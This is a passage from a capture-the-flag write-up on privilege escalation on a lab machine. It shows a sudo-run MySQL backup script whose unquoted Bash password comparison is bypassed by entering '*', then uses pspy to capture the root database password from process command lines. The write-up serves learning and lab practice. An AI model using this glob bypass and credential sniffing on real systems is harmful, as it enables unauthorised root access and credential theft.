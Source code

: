 ```bash
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

It stores `DB_PASS` in `/root/.creds`.
It stores all backups from the database in `/var/backups/mysql`.

### Insecure Bash comparison sequence

Another point to focus is the comparison sequence between `$DB_PASS` and `$USER_PASS`.
Since they are not quoted with double quotes(""), the right-handed side can be counted as patterns.

Also, the backup command line has also an issue that it's using `$DB_PASS` instead of `$USER_PASS`.

They imply that if we can bypass the password input prompt, I can run the following commands with saved credential.
Since the password is included in the command lines, it can potentially be exposed by monitoring(e.g. pspy).

Let's by pass the password prompt using `*`.

```bash
joshua@codify:~$ sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: 
Password confirmed!
mysql: [Warning] Using a password on the command line interface can be insecure.
Backing up database: mysql
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
mysqldump: Got error: 1556: You can't use locks with log tables when using LOCK TABLES
Backing up database: sys
mysqldump: [Warning] Using a password on the command line interface can be insecure.
-- Warning: column statistics not supported by the server.
All databases backed up successfully!
Changing the permissions
Done!
```

Then, `pspy64` captures the command lines.

```bash
joshua@codify:/tmp$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d

     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░  

...SNIP...

```